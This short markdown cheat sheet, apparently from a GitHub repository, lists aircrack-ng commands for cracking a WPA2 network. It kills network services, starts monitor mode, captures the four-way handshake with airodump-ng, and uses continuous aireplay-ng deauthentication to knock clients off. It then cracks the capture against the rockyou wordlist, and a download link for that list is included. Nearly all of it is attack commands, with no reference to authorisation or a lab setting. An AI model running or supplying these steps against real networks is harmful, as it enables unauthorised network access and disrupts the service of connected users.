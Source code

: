 ```yaml
---
title: Commands WPA2 handshake
completed?: yes
---
```


**Kills processes:**
`sudo airmon-ng check kill`

> If you want to restart the processes run the following command:
> `sudo service NetworkManager restart`

**Starts monitor mode**
`sudo airmon-ng start wlan0`

**Verify that monitor mode is used**
`sudo airmon-ng`

**Get the AP's MAC address and channel**
`sudo airodump-ng wlan0`

1.  **window 1**
    
    1.  *Fill in the channel(after -c) and bssid(after --bssid)*
    2.  `sudo airodump-ng -w hack1 -c --bssid wlan0`
    
    > Note: "hack1 is the filename where we are going to store the captures in, you can choose the name of this file as it doesn't matter, you need to make sure that you remember it tho"
    
2.  **window 2**
    
    1.  *Fill in the bssid after '-a'*
    2.  `sudo aireplay-ng --deauth 0 -a wlan0`

**Use Wireshark to open hack file**
`wireshark hack1-01.cap`

> Note: This is the filename which we've chosen in 'window 1', as there are many captures going on (unless you live under a rock or something ;P), you will get multiple files and that's why there is a '-01' added. You could even have to look in 'hack1-03.cap' to be able to find the 4-way handshake.

**Filter Wireshark messages for EAPOL**

**Stop monitor mode**
`airmon-ng stop wlan0`

**Crack file with Rock you or another wordlist**
**Make sure you have rockyou in text format (unzip file on Kali)**
`aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`

> Note: You can find it on any Kali distribution included at the location above, mine didn't have it tho, so I had to download it :'(
> If your were out of luck like me and don't have the wordlist, [you could download it over here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).
> **I had to use the following command as it was not included in my Kali distro (I downloaded my wordlist)**
> `aircrack-ng hack1-01.cap -w /root/Downloads/rockyou.txt`

**We can also try this without a wordlist, you can also use a brute force attack**
